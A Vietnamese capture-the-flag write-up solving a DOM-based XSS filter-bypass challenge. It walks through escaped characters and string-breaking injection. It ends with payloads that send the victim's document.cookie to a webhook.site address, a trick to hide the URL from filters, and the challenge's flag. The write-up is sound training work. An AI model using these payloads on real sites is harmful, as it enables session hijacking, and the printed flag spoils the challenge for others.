


```diff
@@ Web - Server Challenge
```

## XSS DOM Based - Filters Bypass [50 Points]

- Ở challenge này, tác giả cho ta một trang để nhập số

  

- Kiểm tra source thì thấy số ta nhập được render vào vị trí này và chẳng làm gì cả. Cho dù t có thắng trò này thì cũng không được flag

  

- Mục tiêu của ta là tìm cách truyền vào tham số number một chuỗi payload XSS để có thể khai thác, sau đó gửi link cho admin là có được flag

- Đầu tiên thử với payload đơn giản là 

  ```js
  <script>alert(1)</script>
  ```

  Thì thấy các kí tự ```<``` và ```>``` đã bị escape. 

  

- Tìm kiếm thêm ta thấy dấu ```+``` và dấu ```;``` cũng bị loại bỏ đi. Tuy nhiên còn một dấu ```/``` hữu ích thì vẫn được accept

- Nguyên đoạn code dòng đó sẽ là

  ```js
  var number = ' Chuỗi mà ta nhập vào nằm giữa 2 dấu single quote ' ;
  ```

  => Em thực hiện bypass như sau:

  ```js
  var number = '' == XSS-here // ' ;
  ```

  Tức chuỗi của ta nhập vào sẽ có dạng ```' == XSS //```

  Ví dụ là ```' == alert(1) //```

  

- Thay đổi payload để lấy cookie, payload trở thành

  ```' == (eval)(document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(document.cookie))//```

- Và kết quả là ...

  

- Ta cần phải sửa lại chút để tránh bị phát hiện đang nhập vào một url

  ```' == (eval)(document.location='https'.concat('://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(document.cookie)))//```

- Kết quả thu được

  

  ```diff
  --FLag là: rootme{FilTERS_ByPass_DOm_BASEd_XSS}
  ```

  ​